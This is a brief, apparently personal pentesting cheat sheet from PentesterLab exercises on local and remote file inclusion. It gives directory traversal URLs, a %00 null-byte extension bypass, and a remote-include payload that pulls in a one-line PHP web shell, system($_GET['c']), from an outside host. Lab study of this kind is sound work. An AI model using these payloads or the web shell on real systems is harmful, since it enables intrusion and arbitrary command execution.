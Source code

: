 # LFI : Local file Inclusion


https://highon.coffee/blog/lfi-cheat-sheet/



## Dotdotpwn

## Fimap


## Dir Traversal
Put as many ../../../../../, you stay at /


Check local directory as begin of url
http://ptl-0d8845c8-0b63b08f.libcurl.so/file.php?file=/var/www/../../../../../pentesterlab.key

Bypass extension by adding %00 at the end (work for php<5.3.4)
http://ptl-ded93138-2771189a.libcurl.so/file.php?file=../../../../../../pentesterlab.key%00

Use php include() to do external url include
http://ptl-08a17b2b-81673f5e.libcurl.so/?page=https://assets.pentesterlab.com/test_include_system.txt&c=id
Avec sur un serveur ce code dispo 
<?php 
  system($_GET['c']);
?>

PAge utile : https://assets.pentesterlab.com/test_include_system.txt?c=uname
Le ? devient un & en sous url

Php include() avec ajout de suffixe .php, on supprime le suffixe avec un %00
http://ptl-f93fe94d-4bfe7663.libcurl.so/?page=https://assets.pentesterlab.com/test_include_system.txt%00&c=id

